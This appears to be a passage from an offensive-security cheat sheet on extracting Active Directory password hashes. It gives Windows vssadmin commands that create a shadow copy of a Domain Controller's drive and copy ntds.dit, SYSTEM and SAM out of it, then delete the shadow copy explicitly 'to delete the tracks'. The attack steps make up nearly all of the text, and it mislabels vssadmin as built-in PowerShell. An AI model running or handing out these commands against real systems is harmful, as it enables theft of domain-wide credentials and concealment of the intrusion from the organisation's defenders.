



vssadmin (built-in Powershell 3.0+)
Vssadmin
Extract the ntds.dit file directly from the Domain Controller. We can apply this method from
Powershell 3.0
C:\> vssadmin create shadow /for=C:
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\ntds\ntds.dit .
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\system32\config\SYSTEM .
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\system32\config\SAM .
C:\> vssadmin delete shadows /shadow={2f5471a0-9881-4ab4-9a6e-fb24ce6a23fc} #to delete the tracks with Shadow Copy ID
  Bibliography:
•
https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/